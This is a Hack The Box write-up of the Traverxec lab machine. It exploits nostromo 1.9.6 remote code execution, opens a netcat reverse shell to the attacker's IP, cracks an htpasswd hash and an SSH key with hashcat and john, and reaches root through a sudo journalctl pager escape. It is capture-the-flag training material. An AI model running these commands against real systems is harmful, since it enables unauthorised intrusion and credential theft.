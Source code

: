 ```yaml
---
title: HTB | Traverxec
author: Zeropio
date: 2023-01-01
categories: [Pentesting, HackTheBox]
tags: [htb, linux, easy, machines]
permalink: /pentesting/htb/machines/traverxec
image:
  path: /assets/img/hackthebox/card/Traverxec.png
  width: 800
  height: 500
---
```


# Fingerprint

## Scan

The scan show:

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 aa99a81668cd41ccf96c8401c759095c (RSA)
|   256 93dd1a23eed71f086b58470973a388cc (ECDSA)
|_  256 9dd6621e7afb8f5692e637f110db9bce (ED25519)
80/tcp open  http    nostromo 1.9.6
|_http-title: TRAVERXEC
|_http-server-header: nostromo 1.9.6
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Enumeration

Searching for vulnerabilities:

```console
$ searchsploit nostromo   
------------------------------------------- ---------------------------------
 Exploit Title                             |  Path
------------------------------------------- ---------------------------------
Nostromo - Directory Traversal Remote Comm | multiple/remote/47573.rb
nostromo 1.9.6 - Remote Code Execution     | multiple/remote/47837.py
nostromo nhttpd 1.9.3 - Directory Traversa | linux/remote/35466.sh
------------------------------------------- ---------------------------------
```

This are the technologies used by the web:

```
http://10.10.10.165/ [200 OK] Bootstrap, Country[RESERVED][ZZ], HTML5, HTTPServer[nostromo 1.9.6], IP[10.10.10.165], JQuery, Script, Title[TRAVERXEC]
```

---

# Footprint

## Initial Access

Using the exploit gives a direct webshell:

```console
$ python2.7 47837.py 10.10.10.165 80 id

HTTP/1.1 200 OK
Date: Sun, 01 Jan 2023 17:01:12 GMT
Server: nostromo 1.9.6
Connection: close

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

We can send a quickly shell:

```console
$ python2.7 47837.py 10.10.10.165 80 'nc 10.10.14.7 80 -e sh'
```

## Privilege Escalation

### User

Some info can be found in the configuration files:

```
# MAIN [MANDATORY]

servername              traverxec.htb
serverlisten            *
serveradmin             david@traverxec.htb
serverroot              /var/nostromo
servermimes             conf/mimes
docroot                 /var/nostromo/htdocs
docindex                index.html

# LOGS [OPTIONAL]

logpid                  logs/nhttpd.pid

# SETUID [RECOMMENDED]

user                    www-data

# BASIC AUTHENTICATION [OPTIONAL]

htaccess                .htaccess
htpasswd                /var/nostromo/conf/.htpasswd

# ALIASES [OPTIONAL]

/icons                  /var/nostromo/icons

# HOMEDIRS [OPTIONAL]

homedirs                /home
homedirs_public         public_www
```

We can see a hash there:

```console
www-data@traverxec:/var/nostromo/conf$ cat .htpasswd
david:$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/
```

Cracking the hash:

```console
$ hashcat -m 500 hash.txt /usr/share/wordlists/rockyou.txt

$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/:Nowonly4me             
                                                          
Session..........: hashcat
Status...........: Cracked
```

Under `/home/david/public_www/`{: .filepath} we found the file `backup-ssh-identity-files.tgz`. Sending to our machine, we found an RSA that can be easily cracked:

```console
$ ssh2john id_rsa > hash.txt
$ $ john -w=/usr/share/wordlists/rockyou.txt hash.txt
Press 'q' or Ctrl-C to abort, almost any other key for status
hunter           (id_rsa)
```

### Root

Under `bin/server-stats.sh`{: .filepath} we found a suspicious file:

```bash
#!/bin/bash

cat /home/david/bin/server-stats.head
echo "Load: `/usr/bin/uptime`"
echo " "
echo "Open nhttpd sockets: `/usr/bin/ss -H sport = 80 | /usr/bin/wc -l`"
echo "Files in the docroot: `/usr/bin/find /var/nostromo/htdocs/ | /usr/bin/wc -l`"
echo " "
echo "Last 5 journal log lines:"
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service | /usr/bin/cat
```

As we can see, it is runing `journatctl` as sudo. We can execute that line and make a `less` scape to get a root shell:

```console
david@traverxec:~/bin$ /usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service
-- Logs begin at Sun 2023-01-01 09:09:54 EST, end at Sun 2023-01-01 14:08:44 
Jan 01 09:09:55 traverxec systemd[1]: Starting nostromo nhttpd server...
Jan 01 09:09:55 traverxec systemd[1]: nostromo.service: Can't open PID file /
Jan 01 09:09:55 traverxec nhttpd[445]: started
Jan 01 09:09:55 traverxec nhttpd[445]: max. file descriptors = 1040 (cur) / 1
Jan 01 09:09:55 traverxec systemd[1]: Started nostromo nhttpd server.
!/bin/bash
root@traverxec:/home/david/bin#
```
